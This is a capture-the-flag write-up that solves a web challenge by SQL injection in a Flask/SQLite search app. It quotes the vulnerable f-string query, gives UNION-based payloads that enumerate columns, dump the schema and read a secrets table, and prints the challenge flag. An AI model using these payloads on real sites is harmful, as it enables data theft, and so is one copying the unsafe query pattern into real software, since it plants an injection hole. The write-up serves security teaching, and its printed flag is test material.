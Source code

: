 # Web: X-Marks-The-Flag

**Author**: [redtrib3](https://github.com/redtrib3)
**Points**: 250
**Hint(s)**: None
**Flag**: `xploit{uni0nize_th3_tabl3s_0verthrow_th3_sys4dm1ns}`

**Challenge description:**
```
We built a brand new exploit search engine, so you don’t have to waste time searching ExploitDB.

Note: No automated tools are required to solve this challenge.

Challenge Link:
http://xploitctf.live:64298/
```

## Solve

We are given a search engine type of application named 'Xpl0it Search', on searching anything such as a letter 'a', it returns every exploits with 'a' in its title.
we can also change the search parameter to - 'Title', 'Id', 'Date', 'Author', 'Type', 'Platform'.

If you notice the scroller on top of the webpage, there is a text which says " 👆 Visit /source for our source code", where /source is a hyperlink that gives us the actual source code of the website.
Read through the source code to understand how the flask application works, the vulnerability lies in one of the database utils 
that is made to query the database using two parameters 'keyword' and 'by'. These parameters are user inputs directly taken from `by` and `x` parameters in `/search`.
The user input is directly put into the sql query, obviously resulting in an SQL INJECTION vulnerability.

**Vulnerable code:**
```python3
        if by == 'title':
            query = f"SELECT * FROM exploits WHERE title LIKE '%{keyword}%'" # keyword is 'x' parameter
```

Step by step exploitation:
1. Find the number of columns reflected using the following injection query:
    `%' union select 1,2,3,4,5,6 -- -`
2. The above query is successful, since 6 columns are returned, we can use any one column to exfilterate data.
3. From the source code we know that the database is sqlite, so here is the payload to list table schemas.
`%' union select 1,2,3,4,5,sql from sqlite_master -- -`

Output:
```
CREATE TABLE company_secrets ( id INTEGER NOT NULL, secret VARCHAR NOT NULL, PRIMARY KEY (id) )
CREATE TABLE exploits ( id INTEGER NOT NULL, title VARCHAR NOT NULL, date DATE NOT NULL, author VARCHAR NOT NULL, type VARCHAR NOT NULL, platform VARCHAR NOT NULL, PRIMARY KEY (id) )
```
4. The company_secrets table is interesting, we can easily print the secret now:
`%' union select 1,2,3,4,5,secret from company_secrets`

5. We get the flag!
